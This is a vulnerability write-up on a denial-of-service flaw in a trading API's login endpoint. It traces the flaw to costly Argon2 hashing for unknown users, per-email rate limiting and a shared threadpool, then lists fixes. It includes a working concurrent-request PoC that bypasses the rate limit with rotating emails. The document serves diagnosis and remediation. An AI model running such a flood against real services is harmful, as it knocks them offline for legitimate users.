


# DoS on `/api/login` — GTX Trading API

The `/api/login` endpoint allows resource exhaustion of the entire backend (not just login) through concurrent requests with different emails. It’s not a single bug: it’s three factors that combine.

## PoC used

```python
import httpx
import asyncio
import time

URL = "http://localhost:8080/api/login"
N = 200

async def attack(client, i):
    email = f"dos-{i}@fake.local"
    password = f"Prueba-{i}-login-dos@@##"
    t0 = time.perf_counter()
    r = await client.post(URL, json={"email": email, "password": password}, timeout=30)
    return r.status_code, time.perf_counter() - t0

async def main():
    async with httpx.AsyncClient() as client:
        t0 = time.perf_counter()
        results = await asyncio.gather(*[attack(client, i) for i in range(N)])
        total = time.perf_counter() - t0
        print(f"Total: {total:.2f}s para {N} peticiones concurrentes")
        for status, elapsed in results[:10]:
            print(status, f"{elapsed:.2f}s")

asyncio.run(main())
```

## Causes

### 1. Argon2 is computed whether or not the user exists

```python
if not user:
    hasher.hash("dummy-password-value")
```

This code is at lines 320-321 of `app.py`, in the `api` folder.



`PasswordHasher(time_cost=3, memory_cost=65536, parallelism=2)` `->` 64 MiB and several CPU passes per request, whether valid or made up.

### 2. Rate limit is per email, not per origin

```python
attempts = login_attempts[body.email]
if len(attempts) >= 8:
    raise HTTPException(429, "Demasiados intentos; inténtelo más tarde")
```

This is in the same file as the previous point, a few lines above, at lines 310-315.



The PoC uses a different email per request (`dos-{i}@fake.local`) `->` each one starts with its counter at 0. The limit of 8 is never triggered. Trivial bypass.

### 3. Synchronous endpoint + new Postgres connection per request, sharing the threadpool with the whole API

`def login(...)` is not async → FastAPI runs it in the Starlette/AnyIO threadpool (about 40 workers by default, shared by the whole app). On top of that, `connect()` opens a new Postgres connection on every call, with no pool. 200 simultaneous requests saturate that threadpool: `/api/orders`, `/api/accounts`, etc. get blocked too.
#### Bonus: memory leak in `login_attempts`

`defaultdict(deque)` never deletes email keys, only old timestamps inside each deque. With rotating emails, the structure grows without bound.

### Impact

Resource-exhaustion DoS on the entire API (not just authentication), triggerable from a single origin and without needing valid credentials.

### Mitigations (by impact)

1. Per-IP rate limiting at the edge (nginx `limit_req`/`limit_conn` or equivalent), not just per email in the app.
2. Postgres connection pool (`psycopg_pool.ConnectionPool`) instead of `connect()` per request.
3. Dummy hash precomputed once:

```python
   DUMMY_HASH = hasher.hash(secrets.token_urlsafe(32))  # at startup
   ...
   if not user:
       hasher.verify(DUMMY_HASH, body.password)  # same verification cost, no rehash
```

4. Isolate the hashing cost from the shared threadpool: a dedicated fixed-size executor or an `asyncio.Semaphore(N)` in front of login.
5. `login_attempts` with a real TTL (Redis `EXPIRE`) instead of an in-memory dict with no key purging.

### Verification

Re-run the PoC after applying per-IP rate limiting: it should return `429` quickly instead of hanging, and the other endpoints (`/api/orders`, `/api/accounts`) should keep responding normally during the attack.